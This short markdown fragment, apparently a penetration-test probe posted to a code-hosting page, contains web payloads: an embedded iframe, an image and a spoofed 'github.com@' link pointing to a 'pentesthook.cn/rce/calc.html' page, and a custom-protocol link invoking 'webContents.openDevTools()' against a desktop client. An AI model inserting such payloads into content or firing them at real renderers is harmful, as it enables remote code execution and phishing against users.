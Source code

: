 <iframe src="http://baidu.com">
![ ](https://pentesthook.cn/rce/calc.html)


https://github.com/user-attachments/assets/33fa590c-674c-42f2-b75c-64c43aa0ccf7



https://github.com@pentesthook.cn/rce/calc.html


x-ugit-client://webContents.openDevTools()
123123123
123123
